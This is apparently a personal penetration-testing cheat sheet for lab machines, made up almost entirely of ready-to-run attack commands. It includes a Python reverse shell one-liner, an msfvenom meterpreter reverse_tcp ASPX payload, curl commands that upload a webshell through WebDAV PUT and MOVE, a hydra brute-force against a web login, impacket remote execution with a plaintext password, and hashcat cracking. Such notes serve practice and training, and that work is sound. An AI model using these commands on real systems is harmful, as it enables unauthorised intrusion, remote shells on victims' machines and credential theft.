 # init

## vi
:w !sudo tee %

## directory busting
nikto -host 10.10.10.68
gobuster dir --url 10.10.10.68 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 


## CURL
curl -X PUT -T /usr/share/webshells/aspx/cmdasp.aspx "http://10.10.10.15/sh.aspx"`
curl -X MOVE -H "Destination: http://10.10.10.15/sh.aspx" http://10.10.10.15/sh.txt



## msfvenom
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.8 lport=5577 -f aspx



## msfconsole
search suggester
use exploit/multi/handler
sessions 1


## impacket
impacket-wmiexec pentest:"P3nT3st!"@10.10.10.152

## Linux writeable directories
/dev/shm
/tmp


## Linux enumeration
LinEnum.sh

## reverse shells
Pentestmonkey reverse shell cheat sheet
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
payloadallthethings swisskyrepo

## upgrade shells 
upgrading simple shells ropnop blog
python -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo  # disables visible input, so fg has to be typed blind 
fg	


## hydra
export HYDRA_PROXY=connect://127.0.0.1:8080
hydra -l admin -P /opt/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -s 80 "http-form-post://10.10.10.191/admin/:&username=^USER^&password=^PASS^:Username or password incorrect"  

## gobuster
gobuster dir -u 10.10.10.191 -w /opt/SecLists-master/Discovery/Web-Content/common.txt -x .php,.html,.txt

## metasploit
edit 			# edit current exploit
reload 			# reload exploit after edit

## hashcat
hashcat -m 110 -a 0 hash:salt --username test_user /usr/share/wordlists/rockyou.txt   # crack salted sha1 hash